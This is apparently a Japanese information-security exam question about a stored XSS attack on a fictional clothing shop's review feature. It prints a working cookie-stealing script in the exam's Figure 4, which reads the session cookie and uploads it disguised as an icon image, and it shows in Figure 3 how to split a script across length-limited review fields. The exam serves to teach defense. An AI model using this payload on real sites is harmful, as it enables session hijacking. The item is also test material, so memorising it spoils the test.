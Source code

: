 ## 問1 Web アプリケーションプログラムの開発に関する次の記述を読んで、設問に答えよ。

Q社は、洋服のEC事業を手掛ける従業員 100名の会社である。WebアプリQというWeb アプリケーションプログラムでECサイトを運営している。ECサイトのドメイン名は“□□□.co.jp”であり、利用者は Web アプリ Qに HTTPS でアクセスする。WebアプリQの開発と運用は、Q社開発部が行っている。今回、Web アプリQに、ECサイトの会員による商品レビュー機能を追加した。図1は、WebアプリQの主な機能である。

**図1 Web アプリQの主な機能**

1.  **会員登録機能**
    ECサイトの会員登録を行う。

2.  **ログイン機能**
    会員IDとパスワードで会員を認証する。 ログインした会員には、セッションIDをcookieとして払い出す。

3.  **カートへの商品の追加及び削除機能**
    (省略)

4.  **商品の購入機能**
    ログイン済み会員だけが利用できる。
    (省略)

5.  **商品レビュー機能**
    商品レビューを投稿したり閲覧したりするページを提供する。 商品レビューの投稿は、ログイン済み会員だけが利用できる。 会員がレビューページに入力できる項目のうち、レビュータイトルとレビュー詳細の欄は自由記述が可能であり、それぞれ50字と300字の入力文字数制限を設けている。

6.  **会員プロフィール機能**
    アイコン画像をアップロードして設定するためのページ(以下、会員プロフィール設定ページという)や、クレジットカード情報を登録するページを提供する。 どちらのページもログイン済み会員だけが利用できる。 アイコン画像のアップロードは、次をパラメータとして、`https://□□□.co.jp/user/upload` に対して行う。

      * 画像ファイル<sup>1)</sup>
      * `https://□□□.co.jp/user/profile` にアクセスして払い出されたトークン<sup>2)</sup>

    パラメータのトークンが, `https://□□□.co.jp/user/profile` にアクセスして払い出されたものと一致したときは、アップロードが成功する。 アップロードしたアイコン画像は、会員プロフィール設定ページや、レビューページに表示される。
    (省略)

*注1) パラメータ名は、“uploadfile”である。*
*注2) パラメータ名は, "token"である。*

-----

ある日、会員から、無地Tシャツのレビューページ(以下、ページVという)に16件表示されるはずのレビューが2件しか表示されていないという問合せが寄せられた。 開発部のリーダーであるNさんがページVを閲覧してみると、画面遷移上おかしな点はなく、図2が表示された。

**図2 ページV**
*注記) Tシャツの画像は、会員がアイコン画像をアップロードしていない場合に表示される画像である。*

**商品レビュー 無地Tシャツ**


レビューを投稿する

★4.9 16件のレビュー

（変換不可のため省略）
**会員A**
2023年4月10日
★★★★★ Good
Nice shirt!

（変換不可のため省略）
**会員B**
2023年4月1日
★★★★ 形も素材も良い
サイズ感がぴったりフィットして気に入っています(>\_<)
手触りも良く、値段を考えると良い商品です。

以上、全16件のレビュー

Web アプリQのレビューページでは、次の項目がレビューの件数分表示されるはずである。

  * レビューを投稿した会員のアイコン画像
  * レビューを投稿した会員の表示名
  * レビューが投稿された日付
  * レビュー評価 (1~5個の★)
  * 会員が入力したレビュータイトル
  * 会員が入力したレビュー詳細

不審に思ったNさんはページVのHTMLを確認した。 図3は、ページVのHTMLである。

**図3 ページVのHTML**

```html
(省略)
<div class="review-number">16件のレビュー</div>
<div class="review">
<div class="icon"><img src="/users/dac6c8f12f867ed5/icon.png"></div>
<div class="displayname">会員 A</div>
<div class="date">2023年4月10日 </div><div class="star">★★★★★</div>
<div class="review-title">Good<script>xhr=new XMLHttpRequest();/*</div>
<div class="description">a</div>
</div>
<div class="review">
<div class="icon"><img src="/users/dac6c8f12f867ed5/icon.png"></div>
<div class="displayname">会員 A</div>
<div class="date">2023年4月10日 </div><div class="star">★★★★★</div>
<div class="review-title">*/url1="https://□□□.co.jp/user/profile"; /*</div>
<div class="description">a</div>
</div>
(省略)
<div class="review">
<div class="icon"><img src="/users/dac6c8f12f867ed5/icon.png"></div>
<div class="displayname">会員 A</div>
<div class="date">2023年4月10日 </div><div class="star">★★★★★</div>
<div class="review-title">*/xhr2.send(form); } </script></div>
<div class="description">Nice shirt!</div>
</div>
<div class="review">
<div class="icon"><img src="/users/94774f6887f73b91/icon.png"></div>
<div class="displayname">会員 B</div>
<div class="date">2023年4月1日 </div><div class="star">★★★★</div>
<div class="review-title">形も素材も良い</div>
<div class="description">サイズ感がぴったりフィットして気に入っています(&gt; &lt;) <br>
手触りも良く、値段を考えると良い商品です。</div>
</div>
<div class="review-end">以上、全16件のレビュー</div>
(省略)
```


図3のHTMLを確認したNさんは、会員Aによって15件のレビューが投稿されていること、及びページVには長いスクリプトが埋め込まれていることに気付いた。 Nさんは、ページVにアクセスしたときに生じる影響を調査するために、アクセスしたときに Web ブラウザで実行されるスクリプトを抽出した。 図4は、Nさんが抽出したスクリプトである。

**図4 Nさんが抽出したスクリプト**
*注記 スクリプトの整形とコメントの追記は、Nさんが実施したものである。*

```javascript
1: xhr = new XMLHttpRequest();
2: url1 = "https://□□□.co.jp/user/profile";
3: xhr.open("get", url1);
4: xhr.responseType = "document"; // レスポンスをテキストではなくDOMとして受信する。
5: xhr.send();
6: xhr.onload = function() {
   // 以降は、1回目のXMLHttpRequest (XHR)のレスポンスの受信に成功してから実行される。
7:   page = xhr.response;
8:   token = page.getElementById("token").value;
9:   xhr2 = new XMLHttpRequest();
10:  url2= "https://□□□.co.jp/user/upload";
11:  xhr2.open("post", url2);
12:  form = new FormData();
13:  cookie = document.cookie;
14:  fname = "a.png";
15:  ftype="image/png";
16:  file = new File([cookie], fname, {type: ftype});
     // アップロードするファイルオブジェクト
     // 第1引数: ファイルコンテンツ
     // 第2引数: ファイル名
     // 第3引数: MIMEタイプなどのオプション
17:  form.append("uploadfile", file);
18:  form.append("token", token);
19:  xhr2.send(form);
20: }
```


Nさんは、会員 A の投稿はクロスサイトスクリプティング (XSS) 脆弱性を悪用した攻撃を成立させるためのものであるという疑いをもった。 Nさんが Web アプリQを調べたところ、Web アプリ Qには、会員が入力したスクリプトが実行されてしまう脆弱性があることを確認した。 加えて、WebアプリQがcookie に HttpOnly 属性を付与していないこと及びアップロードされた画像ファイルの形式をチェックしていないことも確認した。
Q社は、必要な対策を施し、会員への必要な対応も行った。

### 設問1

この攻撃で使われた XSS 脆弱性について答えよ。
(1) XSS 脆弱性の種類を解答群の中から選び、記号で答えよ。
**解答群**
ア DOM Based XSS イ 格納型 XSS ウ 反射型 XSS
(2) Web アプリQにおける対策を、30字以内で答えよ。

### 設問2

図3について、入力文字数制限を超える長さのスクリプトが実行されるようにした方法を、50字以内で答えよ。

### 設問3

図4のスクリプトについて答えよ。
(1) 図4の6〜20行目の処理の内容を 60字以内で答えよ。
(2) 攻撃者は、図4のスクリプトによってアップロードされた情報をどのようにして取得できるか。 取得する方法を 50字以内で答えよ。
(3) 攻撃者が(2)で取得した情報を使うことによってできることを、40字以内で答えよ。

### 設問4

仮に、攻撃者が用意したドメインのサイトに図4と同じスクリプトを含む HTMLを準備し、そのサイトに Web アプリQのログイン済み会員がアクセスしたとしても、Web ブラウザの仕組みによって攻撃は成功しない。 この仕組みを 40字以内で答えよ。

-----
